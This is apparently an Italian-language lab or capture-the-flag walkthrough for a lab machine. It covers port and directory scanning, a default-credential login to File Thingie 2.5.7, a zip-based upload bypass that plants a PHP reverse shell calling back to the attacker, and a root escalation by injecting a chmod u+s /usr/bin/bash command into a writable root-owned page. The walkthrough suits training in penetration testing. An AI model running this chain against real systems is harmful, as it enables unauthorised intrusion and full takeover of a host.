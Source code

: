 ### 1. Scan delle porte

```bash
nmap -sC -sV -p- 192.168.100.101
```

![nmap](imgs/nmap.JPG)

![nmap](imgs/nmap1.JPG)

- __PORTA 21__ (FTP): FTP pyftpdlib 1.5.6
- __PORTA 22__ (SSH): OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
- __PORTA 25__ (SMTP): Exim smtpd 4.92 (Servizio per le email)
- __PORTA 80__ (HTTP): Web Server Apache httpd 2.4.38 (Debian)
- __PORTA 139/445__ (SMB): File Server SMB
- __PORTA 2121__ (FTP): FTP pyftpdlib 1.5.6 con accesso __anonymous__
- __PORTA 3128__ (SQUID PROXY): Proxy Server Squid version 4.6
- __PORTA 8593__ (PHP): Web Server PHP
- __PORTA 54787__ (PHP): Web Server PHP

### 2. Enumerazione servizio web sulla porta 54787

Prima di tutto ho effettuato una scansione delle directory tramite wfuzz

```bash
wfuzz -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://192.168.100.101:54787/FUZZ --hh 0
```

![wfuzz](imgs/wfuzz.JPG)

Visto che ogni directory testata (anche non esistente) ritorna status code 200, ho utilizzato il parametro __--hh 0__ per nascondere tutte le risposte composte da 0 caratteri.

- __/project/__: Su questo Endpoint è presente il servizio __File Thingie 2.5.7__ che è un semplice web file storage scritto in PHP.

![filethingie](imgs/filethingie.JPG)
Inizialmente ci viene chiesto di effettuare il login e dopo un po' di tentativi sono riuscito ad accedere con queste credenziali:
- username: admin
- password: admin

### Exploit File Thingie Arbitrary File Upload 

Questa versione di File Thingie è vulnerabile ad [Arbitrary File Upload](https://www.exploit-db.com/exploits/47349) e questo ci consente di importare uno script php che ci invia una [reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) sulla macchina server remota. 

- Dobbiamo modificare la variabile _ip_ inserendo l'ip della nostra macchina e assegniamo alla variabile _port_ il valore della porta in ascolto sulla nostra macchina, sulla quale otterremo la reverse shell:

![revshell](imgs/rev.JPG)

L'applicativo ci vieta di fare l'upload di file con estenzione __.php__, quindi per sfruttare questa vulnerabilità visogna fare così:

1) Creare un file ZIP che contiene il file __.php__ che vogliamo eseguire da remoto

```bash
zip -q exploit.zip phprevshell.php
```

2) Fare l'upload del file zip tramite l'applicazione web

![zip](imgs/zip.JPG)

3) Estrarre il contenuto del file zip

![unzip](imgs/unzip.JPG)
Siamo riusciti ad estrarre la nostra reverse shell sul server e abbiamo anche bypassato la restrizione che ci impediva di caricare direttamente il file php.

Mettiamoci in ascolto:

![nc](imgs/nc.JPG)

I file che carichiamo si trovano nella directory __/project__ quindi possiamo triggherare la reverse shell in questo modo:

```bash
http://192.168.100.101:54787/project/phprevshell.php
```

BOOM! adesso abbiamo una shell sulla macchina.

### Privilege Escalation

Dopo un bel po' di enumerazione e ricerche ho scoperto un servizio sulla porta 57 esposto SOLO in localhost e quindi non rilevabile tramite la scansione di __nmap__ che abbiamo fatto all'inizio.

```bash
netstat -tunl
```

![netstat](imgs/netstat.JPG)

Per avere maggiori informazioni riguardo questo servizio ho visualizzato tutti i processi eseguiti da __root__ e il comando che li ha generati.

```bash
ps aux
```

![sv](imgs/sv.JPG)

In questo modo abbiamo scoperto che si tratta di un web service php che si trova in __/var/tmp/sv__

![suid](imgs/suid.JPG)

Notiamo anche che questa directory ha il bit __SUID__ attivo e chiunque può leggere e scrivere all'interno, in più all'interno della directory è presente un file index.php che possiamo modificare ed è posseduto da root.
Adesso la privilege escalation diventa un gioco da ragazzi.

Inseriamo questo codice php all'interno del file index.php in modo tale da aggiungere l'SUID sul binary _/usr/bin/bash_, in questo modo possiamo ottenere una shell con i privilegi di colui che possiedere il file, in questo caso __root__

```php
<?php system('chmod u+s /usr/bin/bash') ?>
```

![root](imgs/root.JPG)

SIAMO ROOT!!

